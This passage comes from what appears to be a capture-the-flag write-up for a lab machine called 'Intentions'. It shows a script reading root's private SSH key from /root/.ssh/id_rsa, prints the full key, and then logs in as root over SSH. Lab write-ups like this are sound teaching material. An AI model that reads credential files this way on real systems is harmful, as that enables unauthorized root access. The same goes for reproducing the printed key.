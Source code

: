 
With that I can read the root flag, but also root’s private SSH key:

    
    
    greg@intentions:~$ python3 read_file.py /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----
    

### SSH

With that SSH key, I can SSH into the box as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/intentions-root root@10.10.11.220
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-76-generic x86_64)
    ...[snip]...
    root@intentions:~# 
    